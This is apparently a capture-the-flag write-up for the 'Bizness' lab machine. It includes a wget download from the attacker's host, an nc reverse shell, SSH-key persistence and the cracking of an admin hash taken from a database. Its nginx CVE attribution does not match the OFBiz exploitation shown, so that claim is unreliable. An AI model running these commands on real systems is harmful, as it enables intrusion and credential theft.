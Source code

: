 # Bizness S4 Machine

## Initial Nmap Scan

```
sudo nmap -p- --min-rate 10000 IP | cut -d"/" -f1 | tr '\n' ','
Results: 22, 80, 443, 42275
```

```
sudo nmap -sCV -p22,80,443,42275 -oA tcp_ports 10.129.177.4
```
# Results:
    22/tcp: Open, SSH (OpenSSH 8.4p1 Debian 5+deb11u3)
    80/tcp: Open, HTTP (nginx 1.18.0)
    443/tcp: Open, SSL/HTTP (nginx 1.18.0)
    42275/tcp: Open, tcpwrapped
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    Domain Name
    `` # Add this to your hosts file
    Vulnerabilities
    Nginx 1.18.0 is vulnerable to CVE-2020-12440 (HTTP Request Smuggling) for both HTTP and HTTPS.
    
## Exploitation

```
sudo python3 exploit.py -u https://bizness.htb
```

### [1] Confirm vulnerability and proceed with exploitation.

## Exploitation Steps: 

Copy nc to the directory.

```
cp /usr/bin/nc ./
```

Start a Python server.

```
python3 -m http.server 80
```
Run the exploit script to install nc on the target.

```
python3 exploit.py --url https://bizness.htb --cmd "wget http://10.10.16.29/nc"
```

Start a listener.

```
nc -lvnp 1234
```

Execute nc on the target for a reverse shell.
```
python3 exploit.py --url https://bizness.htb --cmd "nc 10.10.16.29 1234 -e /bin/bash"
```
Upgrade the shell.

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Gain persistence by creating .ssh/authorized_keys.

```
cd /home/ofbiz/
mkdir .ssh
touch authorized_keys
```

Generate SSH keys on the local machine and copy the public key to the target.

```
ssh-keygen # Follow the prompts
Copy the public key to the target's .ssh/authorized_keys.
```

SSH into the target using the private key.

```
ssh -i id_rsa ofbiz@10.129.177.4
```

### [2]Enumeration

#### SUID Files

```
find / -type f -perm /4000 2>/dev/null
```

No interesting SUID files found.

#### Internal Ports

```
netstat -ano
No interesting internal ports found.
```
#### Automated Enumeration

Use linpeas.sh for automated enumeration.

```
cd /tmp
wget http://10.10.16.29/linpeas.sh
/bin/bash ./linpeas.sh
```
Save the output to a file for later reference.

```
bash ./linpeas.sh > linpease.txt
```
Transfer the file to the local machine using scp.

```
scp -i .ssh/id_rsa ofbiz@10.129.177.4:/tmp/linpease.txt ./
```

#### File Type Search
Search for interesting file types.

```
find / -type f -name '*.xml' 2>/dev/null
```
Locate a hash in an XML file.

#### Derby Database Exploration

Derby is an open-source RDBMS implemented in Java.
Investigate .dat files in the /opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/ directory.
```
find / -type f -name '*.dat' 2>/dev/null
```
Copy all .dat files to a single .txt file and transfer it to the local host.

```
cat /opt/ofbiz/runtime/data/derby/ofbiztenant/seg0/* > dat_files.txt
```

Use strings to analyze the content of the file.
Cracking Password Hash
Locate a SHA-encrypted password for Admin.

```
strings dat_files.txt | grep SHA
```
Utilize information from the OFBiz GitHub repository to create a Python script for hash comparison.

### Python script in MySripts !

Successfully identify and crack the password.
With the cracked password, escalate privileges to root.
